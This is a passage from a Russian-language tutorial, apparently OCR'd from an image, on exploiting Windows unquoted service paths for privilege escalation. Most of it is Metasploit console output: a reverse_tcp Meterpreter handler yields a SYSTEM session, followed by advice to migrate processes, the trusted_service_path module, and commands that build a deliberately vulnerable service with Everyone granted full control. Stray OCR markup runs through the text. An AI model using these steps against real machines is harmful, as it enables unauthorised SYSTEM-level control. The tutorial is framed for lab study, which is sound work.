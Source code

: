 ```cmd
msf > use exploit/multi/handler
msf exploit(handler) > set payload
windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
Started reverse TCP handler on 192.168.2.60:8989 [/li]
Starting the payload handler...[/li]
Sending stage (957999 bytes) to 192.168.2.40[/li]
Meterpreter session 1 opened (192.168.2.60:8989 ->
192.168.2.40:49156) at 2017-01-04 22:37:17
0500[/li][/list]
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
192.168.2.40 - Meterpreter session 1 closed. Reason:
Died[/li]
```

Как видим, мы получили сессию Meterpreter с правами SYSTEM. Однако сессия прервалась почти сразу. Это происходит из-за особенностей Windows: при запуске службы она должна установить соединение с Менеджером Служб (Service Control Manager, SCM). Если соединение не будет установлено, SCM завершит процесс.
- Чтобы избежать этого, нужно мигрировать в другой процесс до того, как Менеджер Служб завершит работу нашего payload.
- Также можно использовать автоматическое мигрирование.
- в Metasploit уже есть готовый модуль для проверки и эксплуатации этой уязвимости на целевой машине:<br>`exploit/windows/local/trusted_service_path`

Если вы хотите использовать данный модуль, то его необходимо прилинковать к существующей сессии Meterpreter перед запуском:

```cmd
msf > use exploit/windows/local/trusted_service_path
msf exploit(trusted_service_path) > show options
Module options
(exploit/windows/local/trusted_service_path):
Name
Current Setting Required Description --------------------------------------
SESSION yes
The session to run this module on.
Exploit target:
Id Name -- ----
0 Windows
```

Чтобы воспроизвести эксплуатацию описанной уязвимости, вам необходимо добавить уязвимую службу в вашей тестовой среде: 

```cmd
C:\Windows\System32>sc create "Vulnerable Service"
binPath= "C:\Program
Files (x86)\Program Folder\A Subfolder\Executable.exe"
start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A
Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files
(x86)\Program Folder" /grant
Everyone:(OI)(CI)F /T
```
